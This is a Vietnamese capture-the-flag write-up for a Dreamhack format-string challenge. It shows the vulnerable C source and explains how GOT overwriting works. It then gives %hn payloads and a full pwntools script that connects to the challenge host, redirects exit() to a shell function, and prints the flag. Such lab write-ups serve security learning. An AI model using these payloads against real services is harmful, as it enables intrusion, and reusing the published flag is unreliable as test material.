









# DH[basic_exploitation_002]



Uhhh thì mô tả nó là vậy đó =))
Theo tác giả nói ở trên thì đây là **Format String bug** ( fmt )
Nhấp vào nút Download nó sẽ tự động tải về 1 file zip, giải nén ra thì đc như này : gồm 1 file binary và 1 file source code

    $ file *
    basic_exploitation_002:   ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-linux.so.2, for GNU/Linux 2.6.32, BuildID[sha1]=4edc3b7b1d4cc47397011a77cabb0b8f7025b52b, not stripped
    basic_exploitation_002.c: C source, ASCII text
    
### Source code
```c
#include <stdio.h>
#include <stdlib.h>
#include <signal.h>
#include <unistd.h>


void alarm_handler() {
    puts("TIME OUT");
    exit(-1);
}


void initialize() {
    setvbuf(stdin, NULL, _IONBF, 0);
    setvbuf(stdout, NULL, _IONBF, 0);

    signal(SIGALRM, alarm_handler);
    alarm(30);
}

void get_shell() {
    system("/bin/sh");
}

int main(int argc, char *argv[]) {

    char buf[0x80];

    initialize();

    read(0, buf, 0x80);
    printf(buf);

    exit(0);
}

``` 
### Analysis
 
Chương trình khá đơn giản, có 1 biến **buf 0x80 byte**, chương trình sẽ đọc dữ liệu từ người dùng thông qua biến `buf` này và in nó ra, tuy nhiên hàm để in là `printf` thiếu mất *đặc tả* nên gây ra lỗi `fmt`. Bên cạnh đó chương trình còn có hàm để set null một số giá trị cần thiết và chương trình đc set thời gian, nếu quá thì sẽ gọi hàm `alarm_handler()` và `exit`. Ta có 1 hàm cho phép tạo shell, mục tiêu mà ta cần nhắm đến.
Để có thể tạo và lấy được `shell`, ta phải gọi được hàm `get_shell`, how?

**GOT** (global offset table) & **PLT** (procedure linkage table)



`GOT` là một vùng nhớ, 1 bảng chứa tất cả các hàm của thư viện `libc`, nó sẽ được gọi khi chương trình gọi 1 hàm nào đó trong `libc`.



Khi chương trình gọi 1 hàm nào đó trong libc nó sẽ gọi ra 1 hàm có dạng `@plt` hàm này chỉ có 1 lệnh duy nhất là nhảy vào 1 địa chỉ trong `GOT`



Nếu là lần đầu gọi tới hàm `exit`, `exit@plt` sẽ nhảy tới `exit@got.plt`, rồi nó trỏ tới 1 chuỗi các lệnh để tìm ra địa chỉ thật sự của `exit`, lưu nó vào `exit@got.plt`, rồi thực thi hàm `exit()`.
Từ những lần sau `exit@plt` chỉ cần nhảy vào `exit@got.plt` và lúc này `exit@got.plt` đang chứa địa chỉ thật sự của `exit()` nên `exit()` sẽ được thực thi luôn, có thể gọi `GOT` là 1 bảng các con trỏ hàm. Nếu ta có thể *overwrite* địa chỉ thực sự của hàm lưu trong `GOT` thì có thể gọi được hàm mà ta mong muốn, đấy cũng là target của chall này =))

### Exploit

Ta sẽ overwrite địa chỉ `GOT` đang trỏ tới bằng cặp **%c%n**, `%n` sẽ chứa số byte mà đã được ghi trước nó. 

**VD**: khi hàm print đúng, đủ có dạng `printf(buf, &size)`, send **payload = b'AAAA%n'**. Thì lúc đó đỉnh `stack` sẽ trỏ tới chuỗi mà mình vừa nhập, kề sau là địa chỉ của `size`, *`%n`* sẽ đếm số byte được in, ở đây là 4 và ghi vào size. Còn nếu printf thiếu đặc tả dữ liệu, stack vẫn sẽ trỏ tới chuỗi ta vừa nhập, sau đó sẽ puts địa chỉ của chuỗi đó vào, vì vậy `arg` đầu tiên của `printf` sẽ là địa chỉ của chuỗi, trong ví dụ sẽ là `AAAA` tức `0x41414141` và `%n` vẫn sẽ đếm số lượng byte được in trước nó, là `4`, rồi ghi vào `0x41414141`. Tất nhiên đây là địa chỉ không khả dụng nên chương trình sẽ báo lỗi. 

)

Lí thuyết vậy thôi =)). 
```python
payload = p32(exit_got)
payload += b"%134514185c%n" # 0x8048609 = 134514185
```
Ta sẽ ghi tắt bằng cách sử dụng `%c` (`%c` sẽ in lần lượt mỗi 1 byte) vậy thì `134514185` sẽ được `overwrite` vào `exit_got`



Có thể thấy chương trình đang báo lỗi, và vòng lặp output vô hạn. Chắc do số ghi vào quá lớn, tận *134514185* =)). Nên ta sẽ chia nỏ nó ra và push lần lượt vào 0x8048609 => 0x**804**(2052)/0x**8609**(34313). 

```python
payload = p32(exit_got+2)
payload += p32(exit_got)
payload += b"%2052c%1$hn%34313c%2$hn" #h= half, 1 có nghĩa là chỉ ghi vào 2 byte đầu, 2 tương tự chỉ ghi vào 2 byte sau
```


Tuy đã có thể ghi đè giá trị nhưng vẫn không như ta mong muốn. Payload của ta vẫn đang có vấn đề. Do ta đã push 2 địa chỉ, mỗi cái 4 byte nên phần padding ở %c ta phải trừ cho 8 byte `2052 - 8 = 2044`. Cộng thêm khi ghi đè phần thứ 2 thì nó sẽ cộng dồn với phần cũ nên padding thứ 2 ta phải trừ cho 2052 byte đã ghi ở trước `34313 - 2052 = 32261`.

```python
payload = p32(exit_got+2)
payload += p32(exit_got)
payload += b"%2044c%1$hn%32261c%2$hn"
```


lần này thì đúng rồi :v

```python
#!/usr/bin/python3
from pwn import *
exe= ELF('./basic_exploitation_002', checksec=False)
exit_got = exe.got['exit']
shell = exe.sym['get_shell']
log.info("exit got: "+ hex(exit_got))
log.info("shell: "+ hex(shell))
#p = process([exe.path])
p = remote('host3.dreamhack.games', 22785)
input()
payload = p32(exit_got+2)
payload += p32(exit_got)
payload += b"%2044c%1$hn%32261c%2$hn"
p.send(payload)
p.interactive()
```


lụm lúa =)) `flag: DH{59c4a03eff1e4c10c87ff123fb93d56c}`